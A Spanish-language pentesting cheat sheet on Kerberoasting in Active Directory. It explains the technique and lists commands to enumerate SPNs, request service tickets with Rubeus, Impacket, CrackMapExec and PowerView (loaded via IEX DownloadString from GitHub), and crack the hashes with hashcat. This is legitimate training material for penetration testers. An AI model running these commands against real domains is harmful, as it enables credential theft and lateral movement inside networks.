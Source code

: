 # Kerberoasting 

Tags: #AD #Kerberoasting #Rubeus #Crackmapexec #Impacket #BloodHound #ADPeas #PowerView #HashCat #Windows 

El "Kerberoasting" es una técnica utilizada por atacantes para extraer tickets de servicio de Kerberos en Active Directory y descifrarlos fuera de línea, con el objetivo de obtener contraseñas en texto claro de cuentas de servicio. Este ataque aprovecha configuraciones débiles, como contraseñas poco seguras en cuentas de servicio, y representa una vulnerabilidad significativa en entornos de AD, dado que no genera alertas inmediatas al realizarse el descifrado fuera de la red.

```bash 
# Funcionamiento 

1. Ticket de Servicio: En Kerberos, cuando un usuario quiere acceder a un servicio, solicita un ticket de servicio (TGS, Ticket Granting Service). Este ticket está cifrado con la contraseña de la cuenta de servicio del recurso al que el usuario quiere acceder.
    
2. Extracción: Un atacante no necesita privilegios especiales en el dominio para solicitar un ticket de servicio para cualquier cuenta de servicio. Una vez que el atacante tiene el ticket, puede exportarlo y llevarlo a otro lugar para intentar descifrarlo.
    
3. Descifrado: El atacante intentará descifrar el ticket fuera de línea utilizando herramientas de fuerza bruta o diccionarios. Si la contraseña de la cuenta de servicio es débil, el atacante podría descifrarla en un tiempo razonable.
    
4. Compromiso: Una vez que el atacante tiene la contraseña en texto claro de la cuenta de servicio, puede usarla para acceder a recursos o moverse lateralmente en la red.
```

## Detectar con BloodHound

```bash 
Para detectar posibles vectores de ataque relacionados al Kerberoasting en BloodHound simplemente ejecutamos la siguiente consulta:

	* 'List all Kerberoastable Accounts' en la pestaña de 'Analisys'
```

## Obtener Hash con ADPeas

```bash 
# Ejemplo de un hash 'Kerberoasteable'

❯ $krb5tgs$23$*roast.user$domain1.corp$MSSQL/sql.domain1.corp*$A8DDCBEA1C6AEFE971C4BA672CBC9F32$8D3...

Nota: Debemos de guardar el Hash en una sola linea
```

* [ADPeas](https://github.com/61106960/adPEAS)

```powershell 
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1')

❯ Invoke-adPEAS    # Módulo para hacer la enumeración automatizada
```
## Obtener Hash con Rubeus

Rubeus es una herramienta avanzada de post-explotación diseñada para interactuar con el protocolo Kerberos en entornos de Active Directory (AD). Desarrollada en C#, es ampliamente utilizada en pruebas de penetración y auditorías de red por su capacidad para manipular y explorar el protocolo, permitiendo realizar diversas técnicas como Kerberoasting, extracción de tickets y ataques relacionados con la autenticación.

```bash 
1. Solicitar Tickets Kerberos (TGTs): Rubeus puede solicitar Ticket Granting Tickets (TGTs) utilizando contraseñas, hashes o incluso claves.
2. Kerberoasting: Rubeus es capaz de solicitar Ticket Granting Service (TGS) tickets para cuentas de servicio y luego intentar descifrar estos tickets fuera de línea para obtener contraseñas en texto claro, una técnica conocida como Kerberoasting.
3. Overpass (Pass-the-Ticket): Rubeus puede realizar ataques de "Overpass", donde los TGTs son utilizados para autenticarse en otros sistemas sin conocer la contraseña del usuario.
4. Ticket Renewal: Puede renovar tickets válidos que aún estén dentro de su período de renovación.
5. Dumping Tickets: Rubeus puede extraer tickets de la memoria y almacenarlos para su uso o análisis posterior.
6. Manipulación de Tickets: Puede purgar, renovar e incluso falsificar tickets de Kerberos.
7. Hunting de Tickets: Rubeus puede buscar en la red tickets específicos que proporcionen acceso a ciertos recursos o que posean ciertos privilegios.
8. Ataques de Fuerza Bruta: Puede intentar fuerza bruta contra cuentas de usuario con el objetivo de obtener un TGT.
```

* [Rubeus](https://github.com/GhostPack/Rubeus)
* [Rubeus.exe](https://github.com/Spartan-Cybersecurity/CPAD-Tools/blob/main/Rubeus.exe)

```powershell
❯ ./Rubeus.exe kerberoast     # Ejecutamos la herramienta agregando el tipo de ataque 'Kerberoast'
```

## Obtener Hash con Impacket-GetUsersSPNs

"Impacket-GetUserSPNs" es una herramienta de la suite Impacket, diseñada para interactuar con protocolos de red, específicamente en entornos Microsoft. Es ampliamente utilizada en pruebas de penetración y Red Teaming para identificar cuentas de servicio con nombres principales de servicio (SPNs) registrados en Active Directory (AD). Esto permite a los evaluadores descubrir posibles objetivos para ataques como Kerberoasting.

- Los SPNs se utilizan en Active Directory para asociar un servicio específico con una cuenta de usuario o de computadora que ejecuta ese servicio. Esto es crucial para el proceso de autenticación Kerberos.
    
- Un SPN incorrectamente configurado o asociado con una cuenta de usuario en lugar de una cuenta de servicio puede ser explotado para comprometer la seguridad de la red.

```bash 
GetUserSPNs en Impacket: La funcionalidad GetUserSPNs se utiliza específicamente para identificar y explotar configuraciones inseguras de SPNs dentro de un dominio de Active Directory. Aquí está cómo funciona:

1. Enumeración de SPNs: Primero, el atacante o pentester utiliza GetUserSPNs para enumerar todos los SPNs configurados en el dominio que están asociados con cuentas de usuario regulares en lugar de cuentas de servicio. Esto se hace enviando consultas al controlador de dominio y solicitando información específica sobre los SPNs.
    
2. Extracción de Tickets TGS: Una vez que se identifican las cuentas de usuario con SPNs, GetUserSPNs puede solicitar tickets de servicio Kerberos (conocidos como Ticket Granting Service o TGS) para esos servicios desde el controlador de dominio, utilizando la funcionalidad de Kerberos conocida como Kerberoasting.
    
3. Crackeo de Tickets: Los TGS obtenidos están cifrados con la contraseña de la cuenta de usuario asociada con el SPN. Sin embargo, debido a que muchas organizaciones utilizan políticas de contraseñas débiles, un atacante puede intentar "romper" el cifrado de estos tickets fuera de línea mediante fuerza bruta o técnicas de adivinación de contraseñas.
    
4. Compromiso de Cuentas: Si el atacante logra descifrar la contraseña de una cuenta, puede utilizar esas credenciales para acceder a sistemas, elevar privilegios, o realizar movimientos laterales dentro de la red, comprometiendo potencialmente la seguridad de toda la organización.
```

```bash 
❯ impacket-GetUserSPNs domain1.corp/clearpass.user:Password@1 -dc-ip IP -request

	# dc-ip = Dirección IP del DC
	# domain1 = Dominio 
	# clearpass.user = Usuario valido del dominio 
	# Password@1 = Contraseña del usuario valido 

Nota: Debemos de tener la IP con su dominio en el '/etc/hosts'
```

## Obtener Hash con CrackMapExec

```bash 
❯ ./cme ldap IP -u 'clearpass.user' -p 'Password@1' --kerberoast output.txt

Nota: Debemos de tener la IP con su dominio en el '/etc/hosts'
```

## Obtener Hash con PowerView

```powershell
❯ IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1');

❯ Request-SPNTicket -SPN "MSSQL/sql.domain1.corp"
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 13100 --force hash-kerberoasting /usr/share/wordlists/rockyou.txt

	# m = Método por fuerza bruta
	# 13100 = TGS de un Kerberoasting
	# hash-kerberoasting = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```